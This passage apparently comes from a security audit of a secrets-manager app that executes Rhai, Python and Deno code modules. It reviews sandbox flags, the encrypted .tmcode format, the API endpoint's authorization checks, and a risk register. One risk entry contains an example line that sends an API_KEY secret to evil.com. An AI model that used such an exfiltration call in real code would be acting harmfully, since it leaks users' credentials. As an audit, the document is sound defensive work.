| Permission model | [`--allow-net`](../src-tauri/src/secrets/subprocess_executor.rs:157) only | **Strong** -- Deno denies all other permissions by default |
| No filesystem read | `--allow-read` NOT passed | High -- `Deno.readFile()` and similar will throw `PermissionDenied` |
| No filesystem write | `--allow-write` NOT passed | High -- `Deno.writeFile()` will throw `PermissionDenied` |
| No env access | `--allow-env` NOT passed | High -- `Deno.env.get()` will throw `PermissionDenied` |
| No subprocess | `--allow-run` NOT passed | High -- `Deno.Command()` will throw `PermissionDenied` |
| No prompt | [`--no-prompt`](../src-tauri/src/secrets/subprocess_executor.rs:158) | High -- prevents Deno from prompting for permissions at runtime |
| Secret delivery | stdin as JSON via [`write_all(input_json)`](../src-tauri/src/secrets/subprocess_executor.rs:174) | High -- secrets not in args or env |
| Code delivery | Temp file at [`tmsm_exec_{pid}.{ext}`](../src-tauri/src/secrets/subprocess_executor.rs:148) | Medium -- see temp file risk below |
| Temp file cleanup | [`remove_file(&temp_file)`](../src-tauri/src/secrets/subprocess_executor.rs:190) after execution | Good -- cleanup on both success and error paths |
| Post-execution zeroization | Secrets zeroized in Rust at [line 195](../src-tauri/src/secrets/subprocess_executor.rs:195) | Same as Python |
| Timeout | **None** -- `wait_with_output()` blocks indefinitely at [line 178](../src-tauri/src/secrets/subprocess_executor.rs:178) | **Missing** |

**Specific risks:**

1. **Temp file race condition**: The script is written to `{TEMP}/tmsm_exec_{pid}.ts` at [line 149](../src-tauri/src/secrets/subprocess_executor.rs:149), then Deno reads it. Between write and read, another process could potentially read the file contents (the code, not secrets -- secrets are passed via stdin).
   - **Severity**: Low -- the temp file contains module code (which is encrypted in the DB), not secrets. However, for blind modules, this briefly exposes the code on disk.
   - **Likelihood**: Very Low -- requires precise timing and knowledge of the temp file path.
   - **Mitigation**: File is deleted immediately after execution. The PID in the filename adds minimal unpredictability.
   - **Recommendation**: Use a randomly named file via `tempfile` crate for stronger unpredictability. Consider setting restrictive file permissions on the temp file.

2. **Deno's --allow-net scope**: `--allow-net` without a host specifier allows connections to **any** network host. This means a module could exfiltrate secrets to an arbitrary URL.
   - **Severity**: Medium -- inherent to the feature design
   - **Mitigation**: Same as Rhai HTTP functions -- the security boundary is at the code approval level
   - **Recommendation**: Future enhancement: allow module authors to declare allowed network hosts, and pass `--allow-net=host1,host2` to Deno

3. **Deno version compatibility**: The wrapper uses `Deno.stdin.readable` which requires Deno 1.16+. Older versions would fail silently.
   - **Severity**: Low -- operational, not security
   - **Mitigation**: Error message includes "is Deno installed?" hint

### 11.6 .tmcode File Format Security

The `.tmcode` format defined in [`blind_code.rs`](../src-tauri/src/secrets/blind_code.rs) mirrors the `.tmvault` format:

| Property | Value | Security Implication |
|----------|-------|---------------------|
| Magic bytes | `TMCD` (0x544D4344) at [line 8](../src-tauri/src/secrets/blind_code.rs:8) | Validates file type; prevents accidental import of wrong file |
| Version | `0x01` at [line 11](../src-tauri/src/secrets/blind_code.rs:11) | Enables format evolution |
| Salt | 16 bytes (random) at [line 70](../src-tauri/src/secrets/blind_code.rs:70) | Per-file salt for key derivation |
| Module count | u32 LE at [line 98](../src-tauri/src/secrets/blind_code.rs:98) | Cross-validated against payload at [line 169](../src-tauri/src/secrets/blind_code.rs:169) |
| Encryption | AES-256-GCM with Argon2id-derived key at [line 85](../src-tauri/src/secrets/blind_code.rs:85) | Same strength as .tmvault |
| PIN requirement | Minimum 6 characters at [line 17](../src-tauri/src/secrets/blind_code.rs:17) | Same policy as vault PINs |
| Expiration | Optional ISO 8601 timestamp at [line 42](../src-tauri/src/secrets/blind_code.rs:42); checked on import at [line 181](../src-tauri/src/secrets/blind_code.rs:181) | Inside encrypted payload -- tamper-resistant |
| Language field | Stored in `CodeModuleEntry` at [line 27](../src-tauri/src/secrets/blind_code.rs:27) | Determines execution engine on import |
| Plaintext zeroization | JSON bytes zeroized after encryption at [line 89](../src-tauri/src/secrets/blind_code.rs:89); decrypted bytes zeroized after deserialization at [line 178](../src-tauri/src/secrets/blind_code.rs:178) | Minimizes plaintext lifetime |

**Validation on import** (in [`import_code()`](../src-tauri/src/secrets/blind_code.rs:107)):

| Check | Line | Result on Failure |
|-------|------|-------------------|
| Minimum file size (25 bytes) | [118](../src-tauri/src/secrets/blind_code.rs:118) | `CryptoError::InvalidData` |
| Magic bytes `TMCD` | [127](../src-tauri/src/secrets/blind_code.rs:127) | `CryptoError::InvalidData` |
| Version == 0x01 | [135](../src-tauri/src/secrets/blind_code.rs:135) | `CryptoError::InvalidData` |
| Non-empty encrypted payload | [151](../src-tauri/src/secrets/blind_code.rs:151) | `CryptoError::InvalidData` |
| PIN derivation succeeds | [158](../src-tauri/src/secrets/blind_code.rs:158) | KDF error |
| AES-GCM decryption succeeds | [162](../src-tauri/src/secrets/blind_code.rs:162) | `DecryptionFailed` (wrong PIN or tampered) |
| JSON deserialization succeeds | [165](../src-tauri/src/secrets/blind_code.rs:165) | `DecryptionFailed` |
| Module count matches | [169](../src-tauri/src/secrets/blind_code.rs:169) | `CryptoError::InvalidData` |
| Expiration not passed | [182](../src-tauri/src/secrets/blind_code.rs:182) | `CryptoError::InvalidData` |

**Assessment**: The .tmcode format inherits the same security properties as .tmvault. The additional `language` field introduces a new attack surface: a malicious .tmcode file could specify an unexpected language to route execution to a different engine. However, [`dispatch_execute()`](../src-tauri/src/secrets/executor.rs:314) only accepts `"rhai"`, `"python"`, `"javascript"`, and `"typescript"` -- any other value returns `ExecutionError::RuntimeError`.

### 11.7 API Endpoint Security (POST /api/execute/:module_name)

The [`execute_code_api`](../src-tauri/src/api/routes.rs:391) handler implements three-layer authorization:

| Layer | Check | Code Location | Failure Response |
|-------|-------|---------------|------------------|
| 1. Bearer token | `verify_bearer(&headers, &token_guard)` | [Line 399](../src-tauri/src/api/routes.rs:399) | 401 Unauthorized |
| 2. App unlocked | `is_unlocked` mutex check | [Line 412](../src-tauri/src/api/routes.rs:412) | 423 Locked |
| 3a. Script registered + approved | `get_script()` + `script.approved` | [Line 425](../src-tauri/src/api/routes.rs:425) | 403 Forbidden |
| 3b. Module exists + approved | `get_blind_code_module()` + `module.approved` | [Line 452](../src-tauri/src/api/routes.rs:452) | 404 / 403 |
| 3c. Module not expired | Expiration check on `module.expires_at` | [Line 463](../src-tauri/src/api/routes.rs:463) | 410 Gone |
| 3d. Per-script module access | `check_script_code_access()` | [Line 473](../src-tauri/src/api/routes.rs:473) | 403 Forbidden |

**Response security:**

- Security headers applied: `Cache-Control: no-store`, `Pragma: no-cache`, `X-Content-Type-Options: nosniff` at [line 554](../src-tauri/src/api/routes.rs:554)
- Response body contains only the execution result (JSON `{"result": "..."}`) at [line 559](../src-tauri/src/api/routes.rs:559) -- no secret values, no module code, no metadata
- Audit event logged: `code_module_executed` at [line 549](../src-tauri/src/api/routes.rs:549)

**Tauri events emitted for unapproved access:**

| Event | Trigger | Payload | Risk |
|-------|---------|---------|------|
| `script-pending-approval` | Unknown script auto-registers | `{ script_id, script_name, domain }` | None -- no secret/code info |
| `code-execution-requested` | Script lacks per-module access | `{ script_id, script_name, module_name }` | None -- module name only, no code |

**Assessment**: The endpoint follows the same defence-in-depth pattern as [`get_secret_api`](../src-tauri/src/api/routes.rs:137). No secret values or module code are present in error responses, event payloads, or audit entries.

### 11.8 Blind Mode Enforcement Audit

| Code Path | Exposes Code? | Evidence |
|-----------|--------------|----------|
| [`list_blind_code_modules`](../src-tauri/src/commands.rs:1418) | **No** | Constructs `BlindCodeModuleMetadata` which has no `code` or `encrypted_code` field; maps only metadata fields (name, description, language, secrets list, params list, approval status, timestamps) |
| [`get_blind_code_module_code`](../src-tauri/src/commands.rs:1824) | **No** (for blind) | Line 1849: `if module.blind { return Ok(None); }` -- blind modules return `None`; only non-blind (locally-created) modules return decrypted code |
| [`import_blind_code_file`](../src-tauri/src/commands.rs:1458) | **No** | After decryption, code is immediately re-encrypted with master key at [line 1498](../src-tauri/src/commands.rs:1498); plaintext code is zeroized at [line 1503](../src-tauri/src/commands.rs:1503); `ImportedCodeModuleInfo` return type has no code field |
| [`export_blind_code_file`](../src-tauri/src/commands.rs:1552) | **Acceptable** | Decrypts code for re-encryption into .tmcode file; code flows to encrypted file, never to frontend |
| [`create_blind_code_module`](../src-tauri/src/commands.rs:1636) | **N/A** | Write-only -- code is encrypted before storage; created with `blind: false` (author's own code) |
| [`execute_code_api`](../src-tauri/src/api/routes.rs:391) | **No** | Code is decrypted server-side for execution at [line 509](../src-tauri/src/api/routes.rs:509); only the return value is sent in the response at [line 559](../src-tauri/src/api/routes.rs:559) |
| [`BlindCodeModuleMetadata`](../src-tauri/src/commands.rs:1381) | **No** | Struct definition: `id, name, description, language, required_secrets, allowed_params, approved, blind, created_at, updated_at, expires_at` -- no `code` field |
| Audit log events | **No** | Events log `module_name` only (e.g., `blind_code_imported`, `code_module_executed`); no code content |
| Tauri events | **No** | `CodeExecutionRequestEvent` at [line 368](../src-tauri/src/api/routes.rs:368): `script_id, script_name, module_name` -- no code |

**Conclusion**: Blind code modules follow the same enforcement pattern as blind secrets. Code is never sent to the frontend for blind modules. The security boundary is at the Rust backend level -- the frontend cannot request blind code through any IPC command.

### 11.9 Identified Risks and Recommendations

| # | Risk | Severity | Likelihood | Current Mitigation | Recommendation | Priority |
|---|------|----------|------------|-------------------|----------------|----------|
| R-11.1 | **Subprocess timeout missing**: [`wait_with_output()`](../src-tauri/src/secrets/subprocess_executor.rs:79) blocks indefinitely for both Python and Deno. A malicious or buggy module could hang the execution thread permanently. | High | Medium | None | Add timeout using `tokio::time::timeout()` or spawn a watchdog thread that calls `child.kill()` after 30 seconds. | **High** |
| R-11.2 | **Secret exfiltration via network**: All three languages (Rhai `http_post`, Python `requests`, Deno `fetch`) allow sending secrets to arbitrary URLs. A malicious code module could `http_post("https://evil.com", secrets["API_KEY"])`. | Medium | Low | Code is encrypted and must be approved by the user before execution. The code author and approver are trusted parties. | Consider per-module URL allowlists: module declares allowed domains, execution engine enforces them. Future enhancement. | Medium |
| R-11.3 | **Python filesystem access unrestricted**: Python can `import os`, `open()`, `subprocess.run()` despite `env_clear()`. | Medium | Low | Trust model: code author is trusted; module must be approved before execution. | Consider `RestrictedPython`, `nsjail`, or a container for higher-security deployments. Document the limitation. | Medium |
| R-11.4 | **Deno temp file briefly exposes code on disk**: Script written to `{TEMP}/tmsm_exec_{pid}.{ext}` exists as a readable file between write and Deno startup. | Low | Very Low | File deleted immediately after execution on both success and error paths. | Use `tempfile` crate for random filenames; set restrictive permissions on the temp file. | Low |
| R-11.5 | **Rhai secret values not explicitly zeroized in Scope**: The Rhai `Dynamic` values cloned into the engine's `Scope` are dropped but not zeroized. Only the `ExecutionContext.secrets` HashMap is zeroized. | Low | Very Low | Rhai Scope is dropped when execution completes; memory is freed by allocator. Consistent with existing process memory risk (Risk #2). | Accept -- explicit zeroization of Rhai internals would require forking the crate. | Low |
| R-11.6 | **Python stdin JSON contains cloned secrets**: `secrets.clone()` at [line 40](../src-tauri/src/secrets/subprocess_executor.rs:40) creates a copy of the secrets for JSON serialization. The `input_json` string is not explicitly zeroized after writing to stdin. | Low | Very Low | The Rust-side HashMap is zeroized after execution. The `input_json` String is dropped but not zeroized. | Add `input_json.zeroize()` after `write_all()` completes. | Low |
| R-11.7 | **Code visible in Python process args**: The wrapper script is passed via `-c` flag, making module code visible in process listings (e.g., `ps aux`). Secrets are correctly passed via stdin. | Low | Very Low | Code is not secret-equivalent; secrets are in stdin, not args. On Windows, process args are less exposed than on Linux. | Consider writing Python code to a temp file (like Deno) to avoid process listing exposure. | Low |
| R-11.8 | **Toast approval for code execution**: Same one-click risk as secret access toasts (Section 1.4). A user could accidentally approve a code module execution request. | Medium | Low | Same mitigations as Section 1.4: deliberate click required, revocable. | Apply same recommendations as Section 1.4: approval cooldown, optional confirmation dialog. | Medium |

### 11.10 Summary of Code Execution Security Model

**Sandbox strength comparison:**

| Capability | Rhai | Python | Deno |
|-----------|------|--------|------|
| Network access | `http_get`, `http_post` (30s timeout) | Unrestricted | `--allow-net` (unrestricted hosts) |
| Filesystem read | Blocked (no FS functions) | **Allowed** | Blocked (`--allow-read` not passed) |
| Filesystem write | Blocked | **Allowed** | Blocked (`--allow-write` not passed) |
| Process spawning | Blocked | **Allowed** (`import subprocess`) | Blocked (`--allow-run` not passed) |
| Environment variables | Blocked | Cleared (`env_clear()`) but `os.environ` accessible | Blocked (`--allow-env` not passed) |
| Resource limits | 100K ops, 1MB strings, 10K arrays/maps | None (OS limits only) | None (OS limits only) |
| Execution timeout | Implicit (ops limit) | **None** | **None** |

**Overall assessment**: The Rhai engine provides the strongest sandbox. Deno provides strong OS-level sandboxing via its permission model. Python is the weakest sandbox, relying primarily on the trust model (code approval) rather than technical enforcement. This difference should be documented for users choosing which language to use for their modules.
